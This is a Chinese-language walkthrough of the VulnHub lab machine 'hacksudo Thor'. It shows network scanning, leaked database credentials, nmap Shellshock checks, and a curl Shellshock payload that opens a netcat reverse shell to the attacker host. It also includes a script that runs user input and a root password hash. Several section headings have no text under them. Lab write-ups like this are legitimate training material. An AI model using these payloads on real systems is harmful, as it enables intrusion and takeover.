

> 靶机环境介绍
+ [hacksudo--Thor](https://download.vulnhub.com/hacksudo/hacksudo---Thor.zip) 
+ 难度等级 <font color=yellow> 中</font>

目标:
+ 取得 root 权限 +  Flag


**所用技术栈**
+ 主机发现
+ 端口扫描
+ WEB 信息收集
+ **开源源代码泄露**
+ 默认账号密码
+ SQL 注入
+ 破壳漏洞
+ GTFOBins提权

## 主机发现与端口扫描

主机发现

```bash
sudo arp-scan -l
```

发现目标靶机为 `10.0.2.14`

然后进行全端口扫描
```bash
sudo nmap -p- 10.0.2.14
```


发现目标靶机开放了 `22,80` 端口

然后我们对其进行服务版本的扫描
```bash
sudo nmap -p22,80 -sV -sC 10.0.2.14
```


## Web 信息收集

既然开放了 80 端口，我们照常使用浏览器来访问一下这个目标靶机开放的网站服务。

> 发现是一个银行系统，并且首页有一个登入表单


既然有表单，我们就先尝试一下弱口令，如 `admin/admin admin/123456 ...`

发现主流的弱口令密码都没能成功登入进去.


这个时候我们就可以去查看一下网站的源代码，去尝试在源代码里面发现一些有用的信息。

<font color='red' face=Monaco size=3>我们在首页的源码里面发现了该网站存在 `images` 路径。</font>


所以我们使用浏览器去访问了一下这个目录，发现就一些普通的图片并没有一些有用价值的信息.


## 开源代码泄露

## 破壳漏洞


## GTF0Bins 提权

[Github link](https://github.com/zakee94/online-banking-system)

```sql
INSERT INTO `customer` VALUES (
    (1,'Nafees','Zakee','male','1994-11-28',123456789,'zakee.nafees@gmail.com','+91 8918722499','22/10, Secondary Road, Durgapur - 713204','delhi',1122334455,1234,'zakee94','nafees123'),
    (2,'Md Salman','Ali','male','1994-10-11',987654321,'ali.salman@gmail.com','+966 895432167','Al Ahsa Street Malaz, King Abdulaziz Rd, Alamal Dist. RIYADH 12643-2121.','riyadh',1133557788,1234,'salman','salman123'),
    (3,'Tushar','Kr. Pandey','male','1995-02-03',125656765,'tusharpkt@gmail.com','+334 123456987','Champ de Mars, \r\n5 Avenue Anatole France, \r\n75007 Paris, France','paris',1122338457,1357,'tushar','tushar123'),
    (4,'Jon','Snow','male','1985-02-03',129156787,'jon.snow@gmail.com','+1 8918332797','The Night Watch,\r\nKing in the North,\r\nThe North Remembers,\r\nWesteros.','newyork',1233556739,1234,'jon','snow123');
```

```bash
zakee94,nafees123
salman,salman123
tushar,tushar123
jon,snow123
```
```bash
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/shell.sh,cmd=ls 10.0.2.14
```
```bash
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/backup.cgi,cmd=ls 10.0.2.14
```

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'which nc'" \http://10.0.2.14/cgi-bin/shell.sh
```

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'nc -e /bin/bash 10.0.2.11 4444'" \http://10.0.2.14/cgi-bin/shell.sh
```

```bash
#!/bin/bash
echo
echo "HELLO want to talk to Thor?"
echo 

read -p "Enter Thor  Secret Key : "  key
read -p "Hey Dear ! I am $key , Please enter your Secret massage : " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

```hash
root:$6$1YV0h.2rYTAvcB.o$cLPgAevmbnBo8dtADheWYcIfGLg157gfrCzZsKqv268MDkimBW7JcnQK6sI79fXsa1Hm5GmP8Kni05w.2nJfc0:18838:0:99999:7:::
```

[text](https://gtfobins.github.io)





